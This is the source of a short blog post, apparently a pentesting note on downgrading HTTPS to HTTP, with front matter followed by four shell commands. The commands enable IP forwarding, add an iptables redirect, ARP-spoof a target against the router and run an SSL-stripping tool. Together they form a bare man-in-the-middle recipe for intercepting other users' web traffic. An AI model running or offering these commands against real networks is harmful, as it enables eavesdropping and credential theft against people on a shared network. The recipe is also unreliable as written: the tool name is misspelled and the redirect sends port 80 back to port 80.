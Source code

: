 ```yaml
---
layout: post
title: Downgrade HTTPS to HTTP
categories: [Pentesting]
tags: [Kali, Linux]
description: 443 > 80
fullview: false
comments: true
---
```


{% highlight yaml %}
$ echo 1 > /proc/sys/net/ipv4/ip_forward
$ iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 80
$ arpspoof -i wlan0 -t IP_TARGET ROUTE_IP
$ ssltrip -l 80
{% endhighlight %}
